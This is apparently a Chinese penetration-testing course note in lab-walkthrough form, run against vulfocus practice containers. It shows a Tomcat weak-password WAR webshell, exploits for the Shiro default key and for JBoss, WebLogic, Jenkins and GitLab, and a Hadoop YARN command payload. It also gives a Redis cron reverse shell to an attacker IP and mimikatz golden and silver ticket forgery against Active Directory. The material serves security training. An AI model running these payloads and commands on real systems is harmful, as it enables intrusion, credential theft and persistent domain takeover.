




day5-内网渗透基础二（上午：中间件、域渗透）
常见漏洞详解
中间件
Tomcat
名称: vulfocus/tomcat-pass-getshell:latest
攻击思路：通过弱口令登录后台，部署war包geshell
1.发现tomcat默认页面
2.弱口令tomcat/tomcat成功登录后台
3.可以在下图红方框内下面的上传处进行war文件上传，上传后会自动解压
4.制作war包
jar -cvf dm.war dm.jsp
5.上传war包成功
访问webshell
http://123.58.224.8:15622/dama/dama.jsp
找到了flage
Shiro(CVE-2016-4437)
介绍：
Apache Shiro是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。
漏洞原因：
Apache Shiro默认使用了CookieRememberMeManager。其处理cookie的流程是：
得到rememberMe的cookie值；Base64解码；AES解密；反序列化。
然而AES的密钥是硬编码的，即AES加解密的密钥是写死在代码中的，攻击者可以构造恶意数据造成反序列化漏洞。
影响版本：Apache Shiro <= 1.2.4
实战：
使用工具：shiro_attack-1.5
1.打开burp抓包
burp抓包-repeater发包-看回显-响应头存在rememberMe字段-存在shiro框架
2.使用工具探测，是否存在shrio的漏洞，并且猜解加密key
3.得到了加密key为默认的：kPH+bIxk5D2deZiIxcaaaA==
4.更改利用链2，尝试攻击

jboos反序列化漏洞(CVE-2017-12149)
vulfocus/jboss-cve_2017_12149:latest
介绍：
JBOSS Application Server是一个基于J2EE的开放源代码的应用服务器。 JBoss代码遵循LGPL许可，可以在任何商业应用中免费使用。
影响版本：5.x和6.x版本
漏洞原因：该漏洞位于JBoss的HttpInvoker组件中的 ReadOnlyAccessFilter 过滤器中，其doFilter方法在没有进行任何安全检查和限制的情况下尝试将来自客户端的序列化数据流进行反序列化，导致攻击者可以通过精心设计的序列化数据来执行任意代码。
实战：
1.打开网址
2。攻击机访问http://123.58.224.8:28913/invoker/readonly,若显示HTTP Status 500,则说明存在漏洞。
3.使用工具 jboss-_CVE-2017-12149 https://github.com/yunxu1/jboss-\_CVE-2017-12149
4.执行命令
5.查找flag
weblogic 远程代码执行 (CVE-2019-2729)
vulfocus/weblogic-cve_2018_3245:latest 7001
介绍：
Oracle WebLogic Server是美国甲骨文（Oracle）公司的一款适用于云环境和传统环境的应用服务中间件，它提供了一个现代轻型开发平台，支持应用从开发到生产的整个生命周期管理，并简化了应用的部署和管理。
漏洞描述：
CVE-2019-2729漏洞是对CVE-2019-2725漏洞补丁进行绕过，形成新的漏洞利用方式，属于CVE-2019-2725漏洞的变形绕过。与CVE-2019-2725漏洞相似，CVE-2019-2729漏洞是由于应用在处理反序列化输入信息时存在缺陷，攻击者可以通过发送精心构造的恶意HTTP请求，用于获得目标服务器的权限，并在未授权的情况下执行远程命令，最终获取服务器的权限。
该漏洞本质是由于 wls9-async组件在反序列化处理输入信息时存在缺陷，未经授权的攻击者可以发送精心构造的恶意 HTTP 请求，获取服务器权限，实现远程命令执行。
漏洞url为：
1 | url:port/_async/AsyncResponseService |
1.访问下边的url地址 可以访问 可能存在漏洞
2.漏洞利用地址
/wls-wsat/CoordinatorPortType
3.直接使用工具：oracle-weblogic-deserialize.py
whoami
查看flag
数据库
Redis
用宿主机
1 | docker run -p 5379:6379 -d --name redis vulfocus/redis-cnvd_2015_07557 |
介绍：
Redis是一套开源的使用ANSI C编写、支持网络、可基于内存亦可持久化的日志型、键值存储数据库，并提供多种语言的API。
漏洞原因：
Redis默认情况下会绑定在0.0.0.0:6379，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问Redis以及读取Redis的数据。攻击者在未授权访问Redis的情况下可以利用Redis的相关方法，可以成功将自己的公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys文件中，进而可以直接登录目标服务器。
基本命令介绍：
连接redis：redis-cli -h 192.168.63.130
查看redis版本信息、一些具体信息、服务器版本信息等等：192.168.63.130:6379>info
将变量x的值设为test：192.168.63.130:6379>set x "test"
获取设置的某个变量的值：192.168.63.130:6379>get x
`flushall`是把整个redis数据库删除，一般情况下不要用！！！192.168.63.130:6379>flushall
查看所有键：192.168.63.130:6379>KEYS *
获取默认的redis目录、和rdb文件名：可以在修改前先获取，然后走的时候再恢复。
192.168.63.130:6379>CONFIG GET dir
192.168.63.130:6379>CONFIG GET dbfilename
一般攻击思路：
1.写webshell
2.写公钥
3.写定时任务反弹shell
实战：
1.写入语句到变量x (每一分钟执行一次)
echo -e "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.88.133/7799 0>&1\n\n"|redis-cli -h 192.168.88.104 -p 5379 -x set 1
2.#设置Redis的备份路径
redis-cli -h 192.168.88.104 -p 5379 config set dir /var/spool/cron/
3.#设置备份文件和文件名
redis-cli -h 192.168.88.104 -p 5379 config set dbfilename root
redis-cli -h 192.168.88.104 -p 5379 save
1 | echo -e "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.88.133/7799 0>&1\n\n"|redis-cli -h 192.168.88.104 -p 6379 -x set 1 |

4.Kali监听
nc -lvnp 7799
redis环境搭建
1 | wget https://download.redis.io/releases/redis-5.0.10.tar.gz //下载 |

运维软件
Jenkins
docker pull vulfocus/jenkins-cve_2017_1000353
docker run -p 8877:8080 -d –name jenkins vulfocus/jenkins-cve_2017_1000353
介绍：
Jenkins 可以通过其网页界面轻松设置和配置,其中包括即时错误检查和内置帮助。 插件 通过更新中心中的 1000 多个插件,Jenkins 集成了持续集成和持续交付工具链中几乎所有的工具。
漏洞原因：
漏洞存在于使用HTTP协议的双向通信通道的具体实现代码中，Jenkins利用此通道来接收命令，恶意攻击者可以构造恶意攻击参数远程执行命令，从而获取系统权限，造成数据泄露。
影响范围：
所有Jenkins主版本均受到影响(包括<=2.56版本)所有Jenkins LTS 均受到影响( 包括<=2.46.1版本)
实战：
1.访问网页
2.生成序列化字符串 jenkins_poc.ser
1 | //生成序列化字符串 |
3.复现成功
docker exec -it a48 /bin/bash
4.关闭容器
docker stop jenkins
5.重启开启关闭的容器
1 | docker ps -a |
gitlab
介绍：
GitLab是一款Ruby开发的Git项目管理平台
漏洞描述：
在11.9以后的GitLab中，因为使用了图片处理工具ExifTool而受到漏洞CVE-2021-22204的影响，攻击者可以通过一个未授权的接口上传一张恶意构造的图片，进而在GitLab服务器上执行任意命令。
影响版本：
11.9 <= Gitlab CE/EE < 13.8.8；13.9 <= Gitlab CE/EE < 13.9.6；13.10 <= Gitlab CE/EE < 13.10.3
1 | docker pull vulfocus/gitlab-cve_2021_22205 |
Hadoop
介绍：
Hadoop作为一个分布式计算应用程序框架，种类功能繁多，各种组件安全问题会带来很大的攻击面。Apache Hadoop YARN是Hadoop的核心组件之一，负责将资源分配在Hadoop集群中运行的各种应用程序，并调度要在不同集群节点上执行的任务。(独立出的资源管理框架，负责资源管理和调度)
漏洞产生原因：
负责对资源进行同一管理调度的 ReasourceManager 组件的UI管理界面开放在 8080/8088 端口，攻击者无需认证即可通过REST API 部署任务来执行任意命令，最终可完全控制集群中所有的机器
实战：
1.访问 8088 端口
2.首先访问（POST请求） /ws/v1/cluster/apps/new-application 获取 application-id：application_1661169421115_0001
3.获取到 application-id 之后，我们访问 /ws/v1/cluster/apps 页面，并且构造 Payload
1 | {"application-id": "application_1661169421115_0001", "application-name": "getshell", "am-container-spec": {"commands": {"command": "ping -c 3 `whoami`.wwa4tv.dnslog.cn"}}, "application-type": "YARN"} |
修改 application-id 的值和你要执行的命令 command
域渗透
通过域成员主机，定位出域控制器 IP 及域管理员账号，利用域成员主机作为跳 板，扩大渗透范围，利用域管理员可以登陆域中任何成员主机的特性，定位出域管 理员登陆过的主机 IP，设法从域成员主机内存中 dump 出域管理员密码，进而拿 下域控制器、渗透整个内网。
概念
域
域（Domain）是一个有安全边界的计算机集合（安全边界的意思是，在两个域中，一个域中的用户无法访问另一个域中的资源）
工作组的分散管理模式不适合大型的网络环境下工作，域模式就是针对大型的网络管理需求设计的，就是共享用户账号，计算机账号和安全策略的计算机集合。域中集中存储用户账号的计算机就是域控器，域中用户账号，计算机账号和安全策略被存储在域控制器上一个名为Active Directory的数据库中
域控制器
域控制器（Domain Controller，DC）是域中的一台类似管理服务器的计算机，我们可以形象地将它理解为一个单位的门禁系统。域控制器负责所有连入的计算机和用户的验证工作。域内的计算机如果想互相访问，都要经过域控制器的审核
活动目录
活动目录（Active Directory，AD）是指域环境中提供目录服务的组件
目录用于存储有关网络对象（例如用户、组、计算机、共享资源、打印机和联系人等）的信息。目录服务是指帮助用户快速、准确地从目录中找到其所需要的信息的服务。活动目录实现了目录服务，为企业提供了网络环境的集中式管理机制
域控制器和活动目录的区别
如果网络规模较大，就要把网络中的众多对象，例如计算机、用户、用户组、打印机、共享文件等，分门别类、井然有序地放在一个大仓库中，并将检索信息整理好，以便查找、管理和使用这些对象（资源）。这个拥有层次结构的数据库，就是活动目录数据库，简称AD 库
要实现域环境，其实就是要安装AD。如果内网中的一台计算机上安装了AD，它就变成了DC（用于存储活动目录数据库的计算机）
也就是说安装了AD的计算机就是DC
域内成员划分
域控制器：域控制器用于管理所有的网络访问，包括登录服务器、访问共享目录和资源。域控制器中存储了域内所有的账户和策略信息，包括安全策略、用户身份验证信息和账户信息，一个网络中可以有多台域控
成员服务器：成员服务器是指安装了服务器操作系统并加入了域、但没有安装活动目录的计算机，其主要任务是提供网络资源
客户机：域中的计算机可以是安装了其他操作系统的计算机，用户利用这些计算机和域中的账户就可以登录域
独立服务器：独立服务器和域没有关系。如果服务器既不加入域，也不安装活动目录，就称其为独立服务器。独立服务器可以创建工作组、与网络中的其他计算机共享资源，但不能使用活动目录提供的任何服务
金银票据
域控：
redteam\administrator ASDqwe123
redteam\test ASDqwe321
黄金票据
（普通域账户，利用黄金票据，创建域管账户)
使用场景
我们拿下域控，但是因为版本原因我们抓不到域管理的明文密码，我们需要进行横向的渗透，这时候可以使用黄金票据。
另外，做权限维持方式很多，如粘滞键、注册表注入、计划任务、影子用户等等。由于本次是拿到域控，那么这种情况下，我们使用黄金票据是一种非常好的权限维持的方法。
原理
1 | 在Kerberos认证中,Client通过AS(身份认证服务)认证后,AS会给Client一个Logon Session Key和TGT,而Logon Session Key并不会保存在KDC中，krbtgt的NTLM Hash又是固定的,所以只要得到krbtgt的NTLM Hash，就可以伪造TGT和Logon Session Key来进入下一步Client与TGS的交互。而已有了金票后,就跳过AS验证,不用验证账户和密码,所以也不担心域管密码修改。 |
条件
1 | 1、域名称 |
实践
假设已经通过hash传递（pth）的方式拿到了域控。
基本信息获取（SID,所处域）
1 | 这里直接在域控制权上进行操作 |
获取krbtgt用户hash
1 | privilege::debug |
1 | mimikatz.exe "privilege::debug" "lsadump::lsa /patch /name:krbtgt" "exit">log.txt |
此时我们已经拥有krbtgt账号的hash，接下来切换到普通机器，使用mimikatz制作黄金票据。
此时我们无法连接域控。
1 | dir \\ad01.redteam.club\c$ |
先清除票据
1 | kerberos::tgt |

制作票据
1 | kerberos::golden /user:XXX任意用户名 /domain:域名 /sid:域的sid值 /krbtgt:krbtgt的hash /ticket:XXX.kirbi(生成的票据名称) |
票据传递
1 | kerberos::ptt huangjin.kirbi //注入票据 |
此时一个通往域内任意服务的后门制作完成。
可以直接使用psexec工具获得交互权限
1 | 可以直接使用psexec工具获得交互权限 |
创建隐藏用户
1 | 也可以在域内创建隐藏用户。(用户名要以$结尾) |
白银票据
使用场景
在拿到一个普通的域成员权限的时候，可以尝试使用ms14-068伪造一个票据，从而让我们的域用户有域管理员权限。
原理
1 | 如果说黄金票据是伪造的TGT,那么白银票据就是伪造的ST。 |
条件
1 | 1.域名 |
实践
基本信息获取（SID（同一个域下得sid一样)，所处域，服务器名，NTLM HASH）
1 | SID和所处域参考上面 |
1 | 获取服务账号hash |
需要注意的是，这里一定要选择服务器的名字跟他的hash
注意是DC$用户的NTLM-Hash,非administrator,因为要利用共享服务账号
1 | * Username : AD01$ |
清除票据
1 | kerberos::tgt |
制作票据
伪造共享文件夹服务（cifs）权限
1 | kerberos::golden /domain:域名 /sid:域sid /target:目标服务器 /service:目标服务 /rc4:目标服务器的hash /user:xxx用户名 /ptt |
伪造LDAP服务权限
1 | //伪造LDAP服务权限 |
伪造前没权限
伪造成功
伪造后
1 | 金票和银票的区别 |